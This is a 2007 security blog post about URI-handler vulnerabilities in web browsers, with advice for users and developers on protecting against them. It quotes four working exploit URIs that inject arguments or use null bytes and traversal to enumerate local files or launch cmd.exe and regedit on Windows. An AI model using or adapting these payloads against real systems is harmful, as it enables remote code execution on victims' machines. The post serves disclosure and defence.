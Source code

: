 ```yaml
---
title: U R Insecure - How URI Exploits Are Changing The Webappsec Landscape
author: mario-heiderich
date: Fri, 27 Jul 2007 14:59:53 GMT
template: post.pug
category: fucked
---
```


This article is about the recent activities and research that have been undertaken around the area of [uri handler](http://en.wikipedia.org/wiki/URI) implementations in modern browsers. It is also about the tremendous security problems that were discovered as a result of that. And it is also about the ways application developers can protect their users from the raising threat.

## Once upon a time...

Browsers have URI handling features for quite some time now. They are pretty neat and enable the developer to pass application commands through the browsers sandbox to tools and software installed on the users' computer. It creates a bridge between the 
Internet and our local application repository and enables handy things like skypeing a person directly from a website, sending torrent links directly to the registered application and much more. Among the URI handlers you can find real oldies like gopher, telnet and news as well as the cool things like [magnet](http://www.azureuswiki.com/index.php/Magnet_link), [joost](http://www.joost.com/) and [itpc](http://www.apple.com/itunes/store/podcasts.html). Internet Explorer 7 utilizes the res handler to locate resource - for example the blue info icon on the 404 pages. Last but not least, we all know the [data URI](http://en.wikipedia.org/wiki/Data:_URI_scheme) which allows us to use an arbitrary data stream - in base64 or an any variant of [UTF](http://en.wikipedia.org/wiki/Unicode) - parametrize it with a MIME type and pump it directly to the browser via the address bar.

Then people found out how to misuse those URI handlers - [crafted exploits and phishing kits](http://www.xs-sniper.com/nmcfeters/Data-Phishing.html) -  there was a boost of small file scanners and cleverly crafted buffer overflows popping out everywhere. But the last couple of weeks were quite extraordinary. Security researches, including [Billy Rios](http://xs-sniper.com/blog/about/), [Nate McFeters](http://xs-sniper.com/blog/about-nate/) and [Thor Larholm](http://larholm.com/), found out various ways to exploit the URI handlers, unleashing the possibilities of danger. They discovered that many browser implementations don't properly sanitize the data passed via the URIs. With quotes and null bytes it's possible to circumvent the browsers' ability to handle the incoming data and slip out of the sandbox. The results? - exploits which actually enable an attacker to access the local file system of the victim.

## It's just an exploit, mom

The vectors they figured out are pretty manifold - and when watching the list of supported URI handlers for Firefox alone, one might understand pretty quickly that there are almost no limits when exploiting these issues. Bellow you can find a few examples of recently disclosed vulnerabilities which are all able to trigger code execution on the victims system, for as long as the victim is using a win32 based operating system:

	firefoxurl:test|"%20-new-window%20javascript:alert('Cross%2520Browser%2520Scripting!');"

	snews:%00%00../../../../../../../../windows/regedit.exe " - "../random/file/to/create/some/fun" %00.bat

	res://c:\\program%20files\\adobe\\acrobat%207.0\\acrobat\\acrobat.dll/#2/#210

	navigatorurl:test"%20-chrome%20"javascript:C=Components.classes;I=Components.interfaces;file=C['@mozilla.org/file/local;1'].createInstance(I.nsILocalFile);file.initWithPath('C:'+String.fromCharCode(92)+String.fromCharCode(92)+'Windows'+String.fromCharCode(92)+String.fromCharCode(92)+'System32'+String.fromCharCode(92)+String.fromCharCode(92)+'cmd.exe');process=C['@mozilla.org/process/util;1'].createInstance(I.nsIProcess);process.init(file);process.run(true%252c{}%252c0);alert(process)

As you can see it's not only possible to enumerate the clients file system or to just execute some harmless programs on the victims' machine - it's also possible to parametrize the calls. This is dangerous. Moreover, the malicious event will occur remotely as soon as the user clicks a malicious link (firing the link via JavaScript is also possible). But wait a second. Let's make some connections. There was this XSS thing - injecting malicious content into other peoples' websites. The XSS thing where lot's of people said that it's not really an issue. The thing that even people like David Heinemeier Hansson ask me why there's a problem if one is able to create an alert in an important part of one of his applications. Problem? I think so!

## Q&A from the researchers

Here's some [Q&A](/blog/interview-with-xs-snipers) from some of the researchers of the URI exploit issues I recently had a phone conference with - thanks for the time and the quality talk, Billy and Nate.

## Please don't make it happen!

Tests have shown that these exploits work perfectly well in combination with iframes and javascript redirections - it would have been a miracle if not.

> So anyone who is able to use these exploits, make them do the stuff he/she wants them to do and knows a website with persistent XSS on it, is able to create a really dangerous threat to all the attacked websites' visitors and beyond.

We're talking about **remoting** the clients, shutting down computers, networks, formatting disks - yes, formatting the disk and so on. What about XSS worms? With the available possibilities it is possible to create XSS worms that really wreck up the clients' system - after stealing cookies and infecting every account. And do not forget that there are a bunch of ways to obfuscate the payload to make it even harder for IDS systems and filters to detect and sanitize those attacks.

## So - how can we protect ourselves?

Pretty difficult to find an answer on this question without leaving someone out. Users have only a few options to chose from. First of all, it is recommended that you always use the most current version of your favorite web browser. Do not ignore patch updates - never - even if it hurts to use automatic updates. Furthermore [Giorgio Maone](http://maone.net/) is optimizing his [Firefox extension NoScript](http://noscript.net/) to detect and block those kinds of attack - this tool has been and is definitely worth to be tried out. I can only repeat what thousands of other said before me - don't follow untrusted links, don't visit untrusted websites, don't open un-demanded attachments and you better think twice before clicking on a dialog to move it away, especially when it's your browser telling you to let it update itself.

But what's even more important - what can developers do to protect the users on their websites? I must say that you shouldn't allow XSS under any circumstance. Filter your input, filter your output and don't ever allow the user to break the markup. Second - be damn careful when it comes to allowing the user to post links. Make sure that the URLs can only be entered in correct format. At least make sure the URL is prefixed with http(s):// - this is weak protection, I know, but it is better then no protection at all. Alternatively you can follow any user supplied link including redirects and check for availability and the sources after the last redirect. Not a perfect protection  - I know - but a little bit better. Another tear of security can be created with using the [PHPIDS](http://php-ids.org/) - I don't want to self promote but the system is capable of detecting the exploits with pretty high impact and our team is closely working together with Billy and Nate so we are able to keep the detection rules pretty up to date to maximize the protection.

## Conclusion

Without wanting to peddle FUD I hope that you understand that these issues are really dangerous. Most of the stuff, except the excellent research of Billy, Nate and Thor, is not really new. It's important to know what is possible and it is important to see that attack techniques like CSRF and XSS gain tremendous potential damage when mixed with these URI exploits. What do you think?

## Resources

* [http://larholm.com/2007/07/10/internet-explorer-0day-exploit/](http://larholm.com/2007/07/10/internet-explorer-0day-exploit/)
* [https://bugzilla.mozilla.org/attachment.cgi?id=273560&action=edit](https://bugzilla.mozilla.org/attachment.cgi?id=273560&action=edit)
* [http://www.xs-sniper.com/nmcfeters/URI_Use_and_Abuse.pdf](http://www.xs-sniper.com/nmcfeters/URI_Use_and_Abuse.pdf)
* [https://bugzilla.mozilla.org/show_bug.cgi?id=389580](https://bugzilla.mozilla.org/show_bug.cgi?id=389580)
* [http://ha.ckers.org/blog/20070721/res-protocol-local-file-enumeration/](http://ha.ckers.org/blog/20070721/res-protocol-local-file-enumeration/)
* [http://sla.ckers.org/forum/list.php?3](http://sla.ckers.org/forum/list.php?3)
* [http://noscript.net/](http://noscript.net/)
